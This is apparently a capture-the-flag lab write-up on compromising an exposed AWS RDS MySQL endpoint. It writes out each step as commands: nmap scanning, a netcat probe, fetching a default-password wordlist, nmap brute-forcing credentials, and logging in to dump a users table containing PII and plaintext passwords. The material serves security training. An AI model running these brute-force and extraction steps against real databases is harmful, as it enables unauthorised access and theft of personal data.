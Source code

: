 # Pillage Exposed RDS Instances
## Analyze the challenge

The challenge is to exploit an exposed RDS instance, specifically a MySQL database. The provided walkthrough outlines the steps: scan the endpoint, brute-force credentials, connect to the database, and extract the flag.

## Scenario

In the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Our Target: Huge Logistics is taking no chances. They've enlisted your team's expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an **RDS endpoint**: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Our mission? should we chose to attack? Dives deep into this endpoint's security, and identify any security issues before threat actors do.

## Real-World context

Amazon Relational Database Service (RDS) is a web service that allows for easy set up, operation, and scaling of relational databases in the cloud. Administration tasks such as hardware provisioning, database setup, patching, and backups are handled by AWS, allowing us to spend more time at the application level.

Amazon RDS supports several database instances including:

1. Amazon Aurora (port 3306)
2. PostgreSQL (5432)
3. MySQL (port 3306)
4. MariaDB (port 3306)
5. Oracle Database (port 1521)
6. SQL Server (port 1433)

*It's worth noting that although in this scenario an RDS endpoint was provided, that resolves to a dynamic RDS IP address from the EC2 address pool. We could just as well connect to the IP address in this lab.*

## Plan the attack 

### Enumeration

1.  Perform an nmap scan to identify open ports

```bash
nmap -Pn -p3306,5432,1433,1521 exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
```
We see that port 3306 is open. This is the default port for MySQL

2.  Use netcat to confirm the MySQL service on port 3306

```bash
nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
```
This confirms that the service is MySQL. We can try to manually guess the credentials, but it's more efficient to use a wordlist

*A worflist is a list of common usernames and passwords that can be used to brute-force login credentials. We can use the `mysql-brute` script in nmap to automate this process*

3.  Download the MySQL default credentials wordlist

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
```

4.  Format the wordlist to the correct format.

```bash
sed -i '' 's/:/\//g' mysql-creds.txt
```

5.  Run the nmap mysql-brute script.

```bash
nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
```
The output of the nmap command reveals the credentials: `dbuser:123`

## Access exposed DB

1.  Connect to the MySQL database using the found credentials.

```bash
mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
```
Enter password: `123`
    
2.  Query the database to find the flag.

```bash
SHOW GLOBAL VARIABLES like 'tmpdir';
SHOW GRANTS FOR 'dbuser';
use user_info;
show tables;
select * from users;
select * from flag;
```
The users table contains PII (Personally identifiable information), and even unencrypted passwords 🤦

The flag is: `xxxxxxxxxxxxxxxxxxxxxxxxxxxfd5a62`

## Defense Recommendations

One of the most important steps in defense is knowing your installed base of servers, laptops and other infrastructure, where they are accessible from, and who has permissions over them. Performing frequent inventories of current assets is a low-tech but impactful exercise